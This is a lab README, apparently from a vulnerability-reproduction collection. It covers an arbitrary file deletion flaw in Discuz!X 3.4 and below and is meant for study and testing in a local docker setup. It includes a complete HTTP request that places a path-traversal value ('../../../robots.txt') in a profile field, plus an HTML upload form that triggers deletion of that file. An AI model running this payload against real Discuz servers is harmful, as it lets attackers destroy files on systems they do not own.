 # Discuz!X ≤3.4 Arbitrary File Deletion

[中文版本(Chinese version)](README.zh-cn.md)

Discuz!X is a popular forum software widely used in China. A vulnerability in Discuz!X versions 3.4 and below allows attackers to delete arbitrary files on the server through the user profile modification functionality.

References:

- <https://lorexxar.cn/2017/09/30/dz-delete/>

## Environment Setup

Execute the following command to deploy Discuz!X 3.4:

```
docker compose up -d
```

During installation, only modify the database host to `db` and keep other settings as default:

![](1.png)

## Vulnerability Reproduction

First, verify that the target file (e.g., robots.txt) exists by visiting `http://your-ip/robots.txt`:

![](2.png)

After registering a user account, find your formhash value in the personal settings page:

![](4.png)

Send the following HTTP request with your cookie and formhash:

```
POST /home.php?mod=spacecp&ac=profile&op=base HTTP/1.1
Host: localhost
Content-Length: 367
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryPFvXyxL45f34L12s
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.79 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6
Cookie: [your cookie]
Connection: close

------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="formhash"

[your formhash]
------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="birthprovince"

../../../robots.txt
------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="profilesubmit"

1
------WebKitFormBoundaryPFvXyxL45f34L12s--
```

After successful submission, the birthplace field in the user profile page will show the following state:

![](5.png)

This indicates that our malicious data has been inserted into the database.

Next, create an `upload.html` file with the following code (replace `[your-ip]` with your Discuz domain and `[form-hash]` with your formhash):

```html
<body>
    <form action="http://[your-ip]/home.php?mod=spacecp&ac=profile&op=base&profilesubmit=1&formhash=[form-hash]" method="post" enctype="multipart/form-data">
        <input type="file" name="birthprovince" />
        <input type="submit" value="upload" />
    </form>
</body>
```

Open this page in a browser and upload a normal image file. At this point, the malicious data should have been processed and the vulnerability exploitation is complete.

Visit `http://your-ip/robots.txt` again to verify that the file has been successfully deleted:

![](6.png)
